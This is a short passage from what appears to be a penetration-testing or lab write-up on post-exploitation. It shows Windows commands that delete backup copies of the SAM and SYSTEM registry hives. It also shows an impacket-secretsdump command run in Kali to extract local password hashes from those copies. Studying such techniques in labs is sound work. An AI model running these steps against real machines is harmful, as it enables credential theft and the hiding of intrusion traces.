 ```

del c:\users\public\sam.bak

del c:\users\public\system.bak
```
- In Kali:
```
impacket-secretsdump -system system.bak -sam sam.bak local 
```

![25post_exp.png](imgs/25post_exp.png)

---

